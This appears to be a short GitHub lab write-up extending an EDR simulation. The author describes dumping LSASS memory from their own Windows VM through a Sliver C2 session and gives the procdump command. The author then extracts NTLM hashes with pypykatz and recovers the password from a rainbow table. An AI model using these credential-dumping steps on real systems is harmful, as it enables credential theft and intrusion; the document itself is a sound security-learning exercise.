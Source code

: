 # EDR Simulation Extra
## Cracking the Windows password obtained from an LSASS memory dump
Per the main write-up, I executed a C2 payload on the Windows machine via command prompt with Administrative privileges. This granted me high-level access from the Ubuntu attack server running Sliver. 

I was then able to dump the memory contents of LSASS, a process containing sensitive information such as user credentials:
```console
[server] sliver (C2_PAYLOAD_NAME) > procdump -n lsass.exe -s lsass.dmp
```
The dump file was saved as **lsass.dmp** on my attack machine. I then transferred this dump file to a separate Windows host machine for further processing.

For processing the file, I used **pypykatz**, a Python implementation of the post-exploitation tool called Mimikatz. Running pypykatz revealed the names of the users along with their NTLM password hashes.

Rather than brute-forcing, I looked up the hash on a rainbow table, revealing the original password that I had set for the Windows VM in plaintext:

  ![hash-cracked](https://github.com/user-attachments/assets/a209f991-d7eb-449e-b3d8-9776ef5d225e)
